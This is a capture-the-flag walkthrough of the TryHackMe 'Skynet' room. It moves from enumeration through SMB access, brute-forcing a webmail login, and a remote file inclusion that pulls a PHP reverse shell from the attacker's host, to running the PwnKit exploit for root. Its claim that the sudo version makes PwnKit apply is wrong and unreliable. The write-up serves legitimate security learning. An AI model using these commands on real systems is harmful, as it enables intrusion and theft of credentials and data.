


<h1 align="center">TryHackMe Tutorial</h1>
<h2 align="center">Skynet<br>Room link: https://tryhackme.com/room/skynet</h2>

<h3 align="center">Dedicated to all the legends on our Discord channel - CyberSamurai</h3><br>

<p align="center"> </p><br>

<p align="center"> </p><br>


<h1> Enumeration </h1>
<h3>NMAP</h3>

```bash
nmap -T4 -p- -A [targetIP]
```
*[targetIP] being the IP of Skynet CTF*

<p align="center"> </p>

**Open Ports:**<br>
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)<br>
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))<br>
110/tcp open  pop3        Dovecot pop3d<br>
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)<br>
143/tcp open  imap        Dovecot imapd<br>
445/tcp open  netbios-0   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)<br><br>

Okay, so we have webserver being hosted on port 80, OpenSSH on port 22 and Samba File Share on port 139/445. Ports 110 and port 143 do not interest me just as yet. We'll see.

Let's investigate port 80 first.<br><br>

<h2>Port 80 (HTTP)</h2>
Navigating to the webserver using the IP Address of the target machine (in this case 10.10.177.196) on a browser of your choice, you get the below:<br>
<p align="center"> </p><br>

This looks like a search engine, which does nothing when you search or when you click the buttons.<br>

Viewing the Page Source also does not disclose any information.

<h3>GOBUSTER</h3>

```bash
gobuster dir -u http://[targetIP]/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
<p align="center"> </p><br>

**Hidden directories:**<br>
/admin<br>
/css<br>
/js<br>
/config<br>
/ai<br>
/squirrelmail<br>

If you had to navigate to the first 5 directories, you will find that all of them are Forbidden.<br>

<p align="center"> </p><br>

However, */squirrelmail* brings up what looks like a webmail system (hence the open ports 110 and 143?):<br>
<p align="center"> </p><br>

While there is nothing we can do just as yet, it conveniently discloses the version SquirrelMail is running on. **Version 1.4.23**.

<h3>SEARCHSPLOIT</h3>

```bash
searchsploit squirrelmail
```
<p align="center"> </p><br>

<p>Although there are some very important information regarding SquirrelMail vulnerabilities here, there are none that pique my interest since the version of SquirrelMail we are dealing with is not referenced anywhere.</p>

<p>For now, there is not much else we can do on the webserver.</p>

<p>Let's investigate port 139.</p>

<h2>Port 139 (SMB)</h2>

<h3>SMBCLIENT</h3>
Let's use smbclient to enumerate the SMB File Share system on the server.<br>

```bash
smbclient -L \\\\[targetIP]\\ 
```

<p align="center"> </p><br>

Here we can see the different SMB shares currently on the server. There is also a possible username: **milesdyson**. Let's see what we can access.

**Anonymous**
<p>The first share that catches my attention is the anonymous share. This will allow us to enter without specifying a username or password.</p>

```bash
smbclient \\\\[targetIP]\\anonymous
```
*(notice the removal of the ```-L``` switch since we are now not listing the shares, but rather connecting to, in this case **anonymous** as specified on ```\\anonymous```)*<br>

<p align="center"> </p><br>

We are in.<br>

Let's see what this share contains.<br>

```bash
ls
```
<p align="center"> </p><br>

<p>Here we have a file called attention.txt and a directory called logs.</p>

Lets download *attention.txt* on our local machine.<br>

```bash
get attention.txt
```

<p align="center"> </p><br>

<p>We will get to that later.</p>

Change directory to the directory *logs* so we can check what there is inside.<br>

```bash
cd logs
```

<p align="center"> </p><br>

They look like log files. We need to investigate these and see if we can capture important data. Let's download them to our local machine using the ```get``` command like before.<br>

<p align="center"> </p><br>

Now that we have all the content that was on the *anonymous* share stored on our local machine, lets start seeing what they contain.<br>

Open another terminal instance and list the contents of *attention.txt* on your screen.<br>

```bash
cat attention.txt
```
*(if this does not work, make sure you are in the same directory that attention.txt is located)*<br>

<p align="center"> </p><br>

*A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.*<br>
*-Miles Dyson*

Hmm, this is interesting. This might mean that we can attempt to brute force the passwords in some way. There goes **Miles** again, to further increase the odds that its a username.<br>

<p>Let's first list the contents of the log files to see if they mean anything to us.</p>

<p align="center"> </p><br>

The contents of *log1.txt* seem to be a list of logged passwords! We can use these in our brute force attempt later on.

*log2.txt* and *log3.txt* are empty.

<p>Before delving deeper in this, let's investigate the other SMB shares to see if they hold any more useful data.</p>

Head back to your terminal tab where you had the ```smbclient``` running and try and access the *IPC$* share.<br>

<p align="center"> </p><br>

Running the ```ls``` command will give an error, letting us know that no files exist within that share, making the share useless for us.<br>

<p align="center"> </p><br>

**Tip: Type command** ```exit``` **to exit the current share you're in.**

Both shares *print$* and *milesdyson* will give an Access Denied error when attempting to access them.<br>

With regards to port 139, it seems that there are no more clues for us to uncover. Let's go back to port 80 and attempt to brute force the SquirrelMail login using *milesdyson* as username and the password list found on *log1.txt*.<br>

<h2>Port 80 (HTTP) Revisited</h2>

For this, we will use *Burpsuite* to insert the password list as the payload to attempt to break in.

<h3>BURPSUITE</h3>

<p>Launch Burpsuite</p>

<p align="center"> </p><br>

<p>Hit Next and Start Burp on the next screen.</p>

***Disclaimer:***
*For this to work, you need to set up a proxy to be able to intercept traffic. In our case, we are using FoxyProxy. This is a FireFox extension that will allow us to do all the testing we require.*

<p align="center"> </p><br>

And these are the settings you need to add:

<p align="center"> </p><br>

<p>When that is done, you will be able to switch to it using the extension.</p>

<p align="center"> </p><br>

After you successfully set FoxyProxy up, head over to Burpsuite, switch to the *Proxy* tab and click on *Intercept is off* to turn it on.

<p align="center"> </p><br>

<p>Now, hit Refresh on the SquirrelMail page and the Proxy page will populate.</p>

<p align="center"> </p><br>

<p>On the SquirrelMail page, let's enter a random username and a random password so we can see the outcome of it on Burpsuite.</p>

<p>Hit Forward on Burp to see the result.</p>

<p align="center"> </p><br>

Okay! So, from here, we need to grab *login_username*, change it to **milesdyson** and change *secretkey* in a way that it iterates through the *log1.txt* passwords.<br>

To do this, right click on that line of code and click *Send to Intruder*.<br>

<p align="center"> </p><br>

Let's manually change *login_username* to **milesdyson**.<br>

As for *secretkey*, highlight **admin** (or the random password you inserted) and click on **Add §**. If done correctly, it will look like this:<br>

<p align="center"> </p><br>

Now, let's make sure that the *Attack type* is set to *Sniper*, which in this case it is.<br>

<p align="center"> </p><br>

Now, let's head over to the tab *Payloads*. This is where we get to insert the password list.<br>

<p align="center"> </p><br>

Under Payload settings, click on Load and insert *log1.txt*.<br>

<p align="center"> </p><br>

Now, let's hit *Start Attack* and hope for the best.<br>

**We got it!** But for the sake of the CTF requirements, I will not show the actual password, but it is easily recognisable by checking a significant change in the *Length* or *Status code* columns whilst running the attack.<br>

**This will answer question 1 of the CTF**<br>

<p align="center"> </p><br>

Close Burpsuite, turn off FoxyProxy and enter your newly found password with username **milesdyson**.<br>

<p align="center"> </p><br>

These are emails coming from skynet. Let's see what *Samba Password reset* contains.<br>

<p align="center"> </p><br>

<p>Nice! We have ourselves Miles' Samba password!</p>

Let's head back to ```smbclient``` and try and use the password to enter his share.<br>

<h2>Port 139 (SMB) Revisited</h2>

<p>Now that we know the username and the password, we need to change the command a little bit so we can log into the share using a specified username.</p>

```bash
smbclient \\\\[targetIP]\\milesdyson -U milesdyson
```
*we added* ```-U milesdyson``` *to specify a username*<br>

Enter the password we found and **we are in!**<br>

<p align="center"> </p><br>

Lets ```ls``` to see what we can find on this share<br>

<p align="center"> </p><br>

We can see a bunch of PDF files and one directory called *notes*. Let's ```cd``` into it and investigate.<br>

<p align="center"> </p><br>

Among the MD files, there is an interesting text file called *important.txt*, let's download that to our our local machine and see what it says.<br>

<p align="center"> </p><br>

*1. Add features to beta CMS /45kra24zxs28v3yd<br>
2. Work on T-800 Model 101 blueprints<br>
3. Spend more time with my wife*<br>

Number 1 shows what seems like a directory for a new CMS. *Miles you gotta take care of that wife, man*.

**This answers the second question of the CTF.**<br>

<p align="center"> </p><br>

<p>Let's head over to that directory and see what we find.</p>

<h2>Port 80 (HTTP) Revisited Once More</h2>

<p align="center"> </p><br>

<p>This looks like a simple page with no clues, not even on Page Source.</p>

Let's try running a ```gobuster``` scan again to see if we can bust directories within this CMS.<br>

<p align="center"> </p><br>

**Hidden directories:**<br>
/administrator<br>

<p>Let's investigate that newly found directory.</p>

<p align="center"> </p><br>

With no credentials for us to try, let's use ```searchsploit``` again and see if there are any vulnerabilities to exploit.<br>

<p align="center"> </p><br>

<p>Okay, we have a RFI vulnerability on our hands.</p>

**This helps answer question 3 of the CTF.**<br>

<p align="center"> </p><br>

<h1> Exploitation </h1>

Let's see what it does. Print the contents of *25971.txt* on the terminal and analyse it thoroughly.<br>

<p align="center"> </p><br>

<p>According to the last line, we can include a malicious file in place of [FI].</p>

<p>We can try and use a PHP Reverse Shell for this.</p>

<p>Let's use Pentestmonkey's script:</p>

*https://github.com/pentestmonkey/php-reverse-shell*<br>

Click on the green button *Code* and click on *Copy to Clipboard* button as shown below:<br>

<p align="center"> </p><br>

<p>Head over to the terminal and clone it.</p>

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```

<p>That will download the reverse shell on your local machine.</p>

<p align="center"> </p><br>

```cd``` into the *php-reverse-shell* folder and open it using a text editor so we change some things around.<br>

I will be using **mousepad**.<br>

```bash
mousepad php-reverse-shell.php
```

<p align="center"> </p><br>

Find the **$ip** variable and change that IP address to the IP address of your local machine.<br>
As for **$port**, you can leave it as is, or if you want to follow my exact walthrough, go ahead and change it to **7123**.<br>

<p>When that is done, save and exit the text editor.</p>

Now, let's open a new terminal instance and use **netcat** to listen to incoming connections on the port we specified (7123).<br>

<h3>NETCAT</h3>

```bash
nc -lvnp 7123
```

<p align="center"> </p><br>

Now that the listener is on, let's set up a simple HTTP server in the same location that our *php-reverse-shell* script is at.<br>

We will do this using ```Python2```.<br>

```bash
python2 -m SimpleHTTPServer 80
```

<p>When that is done, you can add out full URL including the reverse shell where [FI] is.</p>

**Full URL:**<br>
*http://[targetIP]/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<yourIP>/php-reverse-shell.php*<br>

<p>Once that is done, head over to your netcat listener and let's see if we have a shell.</p>

<p align="center"> </p><br>

**We do!**<br>

<p>From here, lets see which user we are.</p>

```bash
whoami
```

We are *www-data*<br>

<p>Let's find us that user flag.</p>

```ls``` to see the contents and ```cd``` over to the *home* directory where I suspect that the first flag is at.<br>

When you ```ls``` from the *home directory*, we notice that we can access Miles' folder. ```cd``` into that and you can ```cat``` out the *user.txt* flag.<br>

<p align="center"> </p><br>

**That answers question 4 of the CTF.**
<p align="center"> </p><br>

<p>Now, we need to see how to escalate our privileges to gain root access!</p>

<h1> Privilege Escalation </h1>

First, let's stabalise the shell. This is something I've learned in another CTF challenge called *Gallery*. It makes life easier as its easier to manage.<br>

```bash
export TERM=xterm
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<p>Press CTRL + Z</p>

```bash
stty raw -echo ; fg
```

```bash
reset
```

<p>This will give you a fully functional shell.</p>

<p align="center"> </p><br>

Hit enter after ```reset``` and the output of the above will be like:<br>

<p align="center"> </p><br>

As a common check to see what sudo privileges you have, we usually run the command ```sudo -l```, but as you can see from the below image, we need to provide the password of user www-data, which we do not have.<br>

<p align="center"> </p><br>

So, let's cd over to */tmp* folder since that is usually a writable folder.<br>

From here, open a new terminal and we will download **Linpeas** on our local machine. Linpeas scans the target for any vulnerabilites which could allow us to escalate our privileges.<br>
*https://github.com/carlospolop/PEASS-ng/releases/tag/20231203-9cdcb38f*

<p align="center"> </p><br>

When that is done, start a simple HTTP Server like we did previously. **Do not close the window**.<br>

Go back to the shell window and run the below command so we dowload *linpeas.sh* onto the Skynet server.<br>

```bash
wget http://[yourIP]/linpeas.sh
```
*(the path may be different in your case, depending on where you launched the HTTP server).* <br>

<p align="center"> </p><br>

<p>Let's make that executable.</p>

```bash
chmod +x linpeas.sh
```

<p align="center"> </p><br>

<p>Now run it and let it do it's work!</p>

```bash
./linpeas.sh
```

<p align="center"> </p><br>

The first thing I look for when I run linpeas is the **Sudo version** and it's vulnerabilities (if any).<br>

In this case it's Sudo version **1.8.16**.<br>

<p align="center"> </p><br>

From what I've learned before, this version of Sudo may be vulnerable to a PwnKit **CVE-2021-4034**.
*https://github.com/berdav/CVE-2021-4034*

<p>Let's test it out and see if this gives us root access.</p>

Open a new terminal window and ```git clone``` the code from that link like I've shown before. Make sure it's in the same place where you have the HTTP Server running.<br>

<p>Go back to the shell window and download it using the below command:</p>

```bash
wget -r -nH http://[yourIP]/CVE-2021-4034
```

You should be left with a folder name *CVE-2021-4034*. ```cd``` into it and ```ls``` to view the files.

<p align="center"> </p><br>

<p>Now to test if this works, all we need to do is run a command to compile the scripts inside and run the exploit.</p>

```bash
make
```

```bash
./cve-2021-4034
```

<p align="center"> </p><br>

This looks like it worked! Let's ```whoami``` and see if we are indeed root.<br>

<p align="center"> </p><br>

It worked ! We are **root !**<br>

Now look for the *root.txt* file on your own, which is easy to find.<br>

<p align="center"> </p><br>

**This will answer the 5th and final CTF question:**

<p align="center"> </p><br>


**That's it!** You successfully exploited the server.<br>
<br>


<p>-----------------</p>

**w12r3dup**<br>

*~/cybersamurai$*


